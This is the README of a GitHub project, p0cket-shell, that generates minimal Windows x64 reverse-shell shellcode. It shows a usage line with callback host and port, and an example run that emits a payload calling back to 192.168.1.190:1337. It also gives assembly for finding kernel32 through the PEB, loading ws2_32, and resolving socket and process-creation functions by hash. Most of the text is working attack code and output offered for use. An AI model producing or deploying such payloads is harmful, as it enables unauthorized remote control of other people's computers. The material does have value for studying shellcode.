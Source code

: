 ﻿<div align="center" markdown="1">
  <img alt="Warp sponsorship" width="736" src="https://github.com/SilentisVox/p0cket-shell/blob/master/assets/p0cket-shell.jpg">
  <sup>Special thanks to Waffles</sup>
</div>

# p0cket-shell

p0cket-shell is an implementation of an exceptionally compact reverse shell, engineered to achieve remote access with the smallest possible memory. This is minimalism without compromising functionality. This is the most size-efficient reverse shell available. This is peak shellcode optimization.

```
p0cket-shell.py
            ____       __        __             __         ____
     ____  / __ \_____/ /_____  / /_      _____/ /_  ___  / / /
    / __ \/ / / / ___/ //_/ _ \/ __/_____/ ___/ __ \/ _ \/ / /
   / /_/ / /_/ / /__/ ,< /  __/ /_/_____(__  ) / / /  __/ / /
  / .___/\____/\___/_/|_|\___/\__/     /____/_/ /_/\___/_/_/
 /_/
 Author: SilentisVox
 Github: https://github.com/SilentisVox/p0cket-shell

usage: p0cket-shell.py [-h] --payload {hardcode,resolve} --LHOST LHOST --LPORT LPORT --format
                       {c,powershell,ps1,python,exe,raw} [--output OUTPUT]
```

### Setup

```powershell
git clone https://github.com/SilenitsVox/p0cket-shell
cd p0cket-shell
python p0cket-shell.py
```

### Usage

```powershell
p0cket-shell.py --payload  [hardcode | resolve]
                --LHOST    [callback ip]
                --LPORT    [callback port]
                --format   [c | powershell | python | exe | raw]
               [--output]  example.py
```

### Example

```
p0cket-shell.py -p hardcode -lh 192.168.1.190 -lp 1337 -f python

[*] Payload size: 278 bytes
[*] Final size of python file: 1387 bytes
buf  = b""
buf += b"\x65\x48\x8b\x04\x25\x60\x00\x00\x00\x48\x8b\x40"
buf += b"\x18\x48\x8b\x40\x30\x48\x8b\x00\x48\x8b\x00\x48"
buf += ...
```

## How it works

Standalone reverse shell shellcode must follow a specific process. Fortunately for us, it is very straight forward.

1. Get handle to kernel32.dll
2. Get handle to ws2_32.dll
3. Save functions: WSAStartup, WSASocketA, WSAConnect CreateProcessA
4. Call functions: WSAStartup, WSASocketA, WSAConnect CreateProcessA

###### Grab library handles
```nasm
get_kernel32:
    mov   rax,   gs:[0x60]              ; PEB
    mov   rax,   [rax + 0x18]           ; PEB->Ldr
    mov   rax,   [rax + 0x30]           ; Ldr->InMemoryOrderModuleList
    mov   rax,   [rax]                  ; InMemoryOrderModuleList.Flink (ntdll.dll)
    mov   rax,   [rax]                  ; Flink->Flink (kernel32.dll)
    mov   rbp,   [rax + 0x10]           ; Base Address
```
```nasm 
load_ws2_32:
    push  0x006c6c                      ; '0\ll'
    mov   rax,   0x642e32335f327377     ; 'd.23_2sw'
    push  rax                           ; Push to stack
    mov   rcx,   rsp                    ; Save pointer 'ws2_32.dll' to rcx
    sub   rsp,   0x28                   ; Align stack
    call  r14                           ; Call LoadLibraryA (Base Address stored in rax)
```

Now from here we can grab the functions within the 2 libraries and then use them how we want. We have to remember how each function behaves and remember whats needed for each function.

### Finding Functions

Now this is the main issue with making tiny shellcode. We want the most reliable/stable, while also providing a very small size. If we do not care for these, we can make very small shellcode.

All we would need to do is have a hardcoded offset from the module base address.

###### Hardcode Offset

```nasm
get_createprocess:
    lea   r15,   [rbp + 0x44F70] ; Hardcode offset from base address
```

If we wish to maintain reliablity and stabilty, we must parse through the desired libraries AddressOfNames, and match it to one we have. The best way to accomplish this would be hashes.

We need a custom mini hash algorithm to make hashes of our desired functions, then we would need to find a function name, hash it, then compare to what we have. If it matches, save the address and return.

### Hashing Algorithm

###### Calculate Hash User Side

```python
def hash(function_name: bytes, rotate_amount: int):
    calculated_hash                     = 0

    for byte in function_name:
        calculated_hash                 = ((calculated_hash >> rotate_amount) | (calculated_hash << (32 - rotate_amount))) & 0xFFFFFFFF
        calculated_hash                 = (calculated_hash + byte) & 0xFFFFFFFF

    return hex(calculated_hash)
```

###### Calculate Hash Machine Side

```nasm
    xor   rax, rax
    xor   rbx, rbx
    cld

hash_loop:
    lodsb
    test  al,    al
    jz    compare_hash
    ror   ebx,   7 ;)
    add   ebx,   eax
    jmp   hash_loop

compare_hash:
    cmp   ebx,   rdx ; Or wherever you have the hash
    jz    hash_found
    jnz   next_function
```